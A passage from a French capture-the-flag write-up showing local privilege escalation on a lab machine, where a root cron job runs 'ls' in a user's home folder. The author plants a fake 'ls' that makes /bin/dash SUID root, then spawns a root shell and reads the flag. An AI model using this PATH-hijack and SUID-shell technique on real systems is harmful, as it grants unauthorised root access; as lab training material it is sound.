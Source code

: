 ```bash
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
@reboot         root    /bin/bash /usr/share/simulate.sh
@reboot         root    dhclient
jerome@jerome:~$ cat /usr/share/simulate.sh
#
# This script simulates human behaviour from the root account
#

while true
do
    cd /home/jerome;
    ls;
    sleep 120;
done
```

Tic toc, tic toc... Oui c'est bien la présence du dossier courant qui est prioritaire dans la variable PATH.

On va exploiter ça en plaçant un script `ls` dans le dossier de l'utilisateur :

```bash
jerome@jerome:~$ echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > ls
jerome@jerome:~$ chmod 755 ls
jerome@jerome:~$ sleep 120
jerome@jerome:~$ dash -p
# id
uid=1000(jerome) gid=1000(jerome) euid=0(root) groups=1000(jerome),27(sudo)
# cd /root
# ls
flag.txt
# cat flag.txt
f60532cf8a
```

Mission accomplie !

*Publié le 21 décembre 2022*
